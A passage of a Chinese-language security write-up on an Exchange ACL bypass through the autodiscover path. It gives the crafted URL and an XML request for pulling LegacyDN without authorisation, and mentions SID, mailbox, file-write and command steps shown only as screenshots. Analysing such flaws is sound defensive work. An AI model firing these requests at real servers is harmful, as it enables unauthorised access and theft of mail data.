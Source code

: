 Exchange的安装目录如下，可见软件自身就设计了有较多的接口用于业务需求，攻击方式正是基于如上解析方式进行ACL权限绕过，访问铭感资源(想起几年前的某酒店因为wsdl接口外露，被人发现可直接写文件的接口直接RCE的情况)，对于接口的利用在于wsdl的SOAP XML请求的参数要求及报文格式，利用得当的情况下，可在未授权情况下获取配置信息(LegacyDN、SID、邮箱账户)、读写文件、命令交互等。

[![](https://p5.ssl.qhimg.com/t01a1fdba55b503c196.png)](https://p5.ssl.qhimg.com/t01a1fdba55b503c196.png)

接口利用截图

[![](https://p3.ssl.qhimg.com/t01bebe175d851c0481.png)](https://p3.ssl.qhimg.com/t01bebe175d851c0481.png)

以获取LegacyDN信息为例<br>
向/autodiscover/autodiscover.json?a=[foo@foo.com](mailto:foo@foo.com)/autodiscover/autodiscover.xml发送如下xml请求可返回LegacyDN内容

```
&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;Autodiscover xmlns="https://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006"&gt;
  &lt;Request&gt;
    &lt;EMailAddress&gt;mara@contoso.com&lt;/EMailAddress&gt;
    &lt;AcceptableResponseSchema&gt;https://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a&lt;/AcceptableResponseSchema&gt;
  &lt;/Request&gt;
&lt;/Autodiscover&gt;
```

而里面所需的EMailAddress参数如果未知，可使用官方包含的默认特殊系统邮箱。

[![](https://p3.ssl.qhimg.com/t0147f6b89467eaa4c9.png)](https://p3.ssl.qhimg.com/t0147f6b89467eaa4c9.png)

xml格式官方文档连接如下<br>[https://docs.microsoft.com/en-us/exchange/client-developer/exchange-web-services/how-to-get-user-settings-from-exchange-by-using-autodiscover](https://docs.microsoft.com/en-us/exchange/client-developer/exchange-web-services/how-to-get-user-settings-from-exchange-by-using-autodiscover)

[![](https://p1.ssl.qhimg.com/t015bd87e2b647bdc63.png)](https://p1.ssl.qhimg.com/t015bd87e2b647bdc63.png)

其他接口对应的请求测试如下所示<br>
获取SID

[![](https://p5.ssl.qhimg.com/t0147a5f3ad28bc0310.png)](https://p5.ssl.qhimg.com/t0147a5f3ad28bc0310.png)

获取邮箱

[![](https://p4.ssl.qhimg.com/t01144d1f35aa9afc5f.png)](https://p4.ssl.qhimg.com/t01144d1f35aa9afc5f.png)

写入文件

[![](https://p5.ssl.qhimg.com/t01d6b5905cb26b21d1.png)](https://p5.ssl.qhimg.com/t01d6b5905cb26b21d1.png)

[![](https://p0.ssl.qhimg.com/t0168554bafdc143415.png)](https://p0.ssl.qhimg.com/t0168554bafdc143415.png)
